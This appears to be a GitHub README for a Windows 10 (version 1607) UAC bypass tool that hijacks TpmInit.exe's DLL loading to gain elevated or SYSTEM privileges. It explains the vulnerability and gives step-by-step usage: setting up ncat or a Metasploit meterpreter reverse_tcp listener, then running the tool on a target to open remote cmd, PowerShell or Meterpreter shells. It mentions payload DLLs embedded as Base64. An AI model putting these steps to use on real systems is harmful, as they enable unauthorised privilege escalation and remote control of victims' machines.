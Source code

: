 ```
   ______                ____      _ __
  /_  __/___  ____ ___  /  _/___  (_) /_
   / / / __ \/ __ `__ \ / // __ \/ / __/
  / / / /_/ / / / / / // // / / / / /_
 /_/ / .___/_/ /_/ /_/___/_/ /_/_/\__/
    /_/
                    UAC Suicide Squad
       Windows 10 Anniversary Edition
                      By Cn33liz 2016
```

A tool to Bypass User Account Control (UAC), to get a High Integrity (or SYSTEM) Reversed Command shell, 
a reversed PowerShell session, or a Reversed Meterpreter session.
When TpmInit.exe starts, it first tries to load the wbemcomn.dll within C:\Windows\System32\wbem.
This DLL cannot be found in that folder, so it tries to load the DLL again, but then in C:\Windows\System32.
This tool exploits this DLL loading vulnerability within TpmInit.exe, which runs auto-elevated by default.
Same issue also applies to the WMI Performance Adapter service (wmiApSrv) which runs with SYSTEM privileges.
So while we can use TpmInit.exe to get Elevated priviliges, we can also use it to start the wmiApSrv service,
and get a SYSTEM shell using our custom DLL :)

Works on:

```
This version only works on Windows 10 x64 with the Anniversary Update applied (Version 1607).
```

Compile:

```
This project is written in C/C++ using Windows API calls, so you need Visual Studio to compile.
Source code of the needed dll's are included within the project, but not needed to run the tool.
They are embedded within the main executable (as Base64 encoded and compressed binaries).
```

### How to use it:

```
* [>] Usage: First setup a remote Netcat, Ncat or Meterpreter(x64) listener
* [>] Example: KickAss@PenTestBox:~$ sudo ncat -lvp 443

* [>] Or for msf: KickAss@PenTestBox:~$ sudo msfconsole
* [>] msf > use exploit/multi/handler
* [>] msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
* [>] msf exploit(handler) > set LHOST 10.0.0.1
* [>] msf exploit(handler) > set LPORT 443
* [>] msf exploit(handler) > exploit -j

* [>] Then on your target: TpmInitUACBypass.exe <Remote Listener IP> <Port> <powershell, cmd or msf> <system>

* [>] Example1: Remote Elevated Cmd Shell:   TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 cmd
* [>] Example2: Remote SYSTEM Cmd Shell:     TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 cmd system
* [>] Example3: Remote Elevated PowerShell:  TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 powershell
* [>] Example4: Remote SYSTEM PowerShell:    TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 powershell system
* [>] Example5: Remote Elevated Meterpreter: TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 msf
* [>] Example6: Remote SYSTEM Meterpreter:   TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 msf system
```

### Strong Advice

* Do not use accounts with Administrative privileges for daily computer usage!
